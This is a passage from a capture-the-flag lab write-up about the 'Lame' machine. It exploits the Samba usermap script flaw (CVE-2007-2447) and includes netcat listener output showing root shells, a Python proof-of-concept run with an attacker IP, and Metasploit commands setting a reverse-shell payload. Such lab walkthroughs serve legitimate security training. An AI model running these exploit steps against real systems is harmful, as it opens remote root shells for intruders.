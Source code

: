 
I get a connection from Lame with a root shell:

   
```
 root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.3.
    Ncat: Connection from 10.10.10.3:55410.
    id
    uid=0(root) gid=0(root)
```

    

### Python Script

Some Googling led me to [this GitHub](https://github.com/amriunix/CVE-2007-2447) with a Python POC for the exploit. I can get a shell easily, by following the “install” instructions and then running the script:

 
```
   root@kali# python usermap_script.py 10.10.10.3 139 10.10.14.24 443
    [*] CVE-2007-2447 - Samba usermap script
    [+] Connecting !
    [+] Payload was sent - check netcat !
```

    

Sure enough, I get a shell from Lame:

    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.3.
    Ncat: Connection from 10.10.10.3:44666.
    id
    uid=0(root) gid=0(root)
    

### With Metasploit

I can also do this with Metasploit.

    msf5 > use exploit/multi/samba/usermap_script
    msf5 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3
    rhosts => 10.10.10.3
    msf5 exploit(multi/samba/usermap_script) > set payload cmd/unix/reverse
    payload => cmd/unix/reverse
    msf5 exploit(multi/samba/usermap_script) > set lhost tun0
    lhost => 10.10.14.24
    msf5 exploit(multi/samba/usermap_script) > set lport 443
    lport => 443
    
